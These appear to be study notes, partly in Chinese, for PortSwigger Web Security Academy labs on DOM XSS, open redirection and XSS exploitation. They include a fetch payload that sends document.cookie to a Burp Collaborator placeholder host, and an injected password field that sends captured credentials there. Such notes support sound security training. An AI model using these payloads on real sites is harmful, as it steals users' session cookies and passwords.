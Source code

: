 



## DOM-based vulnerabilities

### DOM XSS Web Message

postMessage()用法：https://www.runoob.com/js/met-win-postmessage.html

ifrome对象：https://www.w3school.com.cn/jsref/dom_obj_frame.asp



题目：https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages



### DOM-based open redirection

题目：https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection

js正则表达式：

exec方法：https://www.w3school.com.cn/jsref/jsref_regexp_exec.asp





## cookie steal

```js
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
```

题目：https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies



## password capture

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```



## 非get型XSS&CSS配合

